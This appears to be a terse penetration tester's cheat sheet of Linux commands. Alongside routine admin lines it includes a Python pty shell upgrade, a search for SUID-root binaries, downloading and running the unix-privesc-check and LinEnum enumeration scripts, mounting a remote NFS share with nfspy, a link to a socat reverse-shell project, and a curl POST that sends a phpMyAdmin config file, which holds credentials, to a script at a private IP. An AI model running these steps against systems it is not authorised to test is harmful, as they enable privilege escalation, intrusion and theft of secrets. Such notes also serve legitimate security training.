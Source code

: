 Screen Resolution

xrandr

xrandr -s HHHHxWWW


dpkg-reconfigure tzdata


apt-get install xdotool


python -c 'import pty;pty.spawn("/bin/bash")'

stty -echo

dpkg --get-selections | grep deinstall


find / -user root -perm -4000 -print > 4000.txt

curl -O http://pentestmonkey.net/tools/unix-privesc-check/unix-privesc-check-1.4.tar.gz
tar xzfv unix-privesc-check-1.4.tar.gz
cd unix-privesc-check-1.4
chmod +x unix-privesc-check
./unix-privesc-check detailed > out.txt
grep WARNING out.txt

curl -O https://raw.githubusercontent.com/rebootuser/LinEnum/master/LinEnum.sh



nfspy -o server=192.168.1.124:/home,hide,allow_other,ro,intr /mnt
fusermount -u /mnt


https://github.com/cornerpirate/socat-shell

Post with curl
curl -X POST -F "file=./phpmy/config.inc.php" http://192.168.118.196/test.php
